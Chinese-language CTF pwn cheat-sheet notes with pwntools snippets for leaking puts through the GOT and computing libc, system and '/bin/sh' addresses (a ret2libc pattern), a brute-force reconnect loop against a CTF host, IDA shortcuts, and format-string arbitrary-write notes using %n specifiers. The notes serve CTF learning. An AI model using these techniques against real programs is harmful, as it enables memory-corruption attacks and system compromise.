 各种搜符号例：

```
elf=ELF("./bjdctf")
puts_plt=elf.plt["puts"]
puts_got=elf.got["puts"]
--------libcsearcher-------------
puts=u64(p.recv(6).ljust(8,b'\x00'))
#puts_addr = p.recvuntil('\nOK\n', drop=True).ljust(8, '\x00')
#puts=u64(p.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
libc=LibcSearcher("puts",puts)
libcbase=puts-libc.dump("puts")
system=libcbase+libc.dump("system")
str_bin_sh=libcbase+libc.dump("str_bin_sh")
-------本地--------------
libc.symbols['_IO_list_all']
```

```
爆破示例
while True:
    try:
        #p = process('./babycalc')
        p = remote('tcp.cloud.dasctf.com',26087)
        pwn()
    except Exception as e:
        p.close()
```

## ida系列

shift f9看结构体

shift f12看字符串

tab切换

右键菜单可加注释，修改符号名

## 栈相关

### 格式化字符串可能用到

linux下64位程序是寄存器加栈传参，从左到右参数顺序为第0 1 2 3 参数`$rdi,$rsi,$rdx,$rcx,$r8,$r9,$rsp+0,...`；因此`$rsp+x`的位置应该是格式化第`x/8+6`个参数。

`%< number>$type`：直接作用第number个位置的参数，如：`%7$x`读第7个位置参数值，`%7$n`对第7个参数位置进行写。

`%<number>c`：输出number个字符，配合`%n`进行任意地址写，例如`"%{}c%{}$hhn".format(address,offset)`就是向`offset0`参数指向的地址最低位写成`address`。

```
%hhn 写一字节
%hn  写两字节
%n   写四字节
%ln  32位写四字节，64位写八字节
%lln 写八字节
```
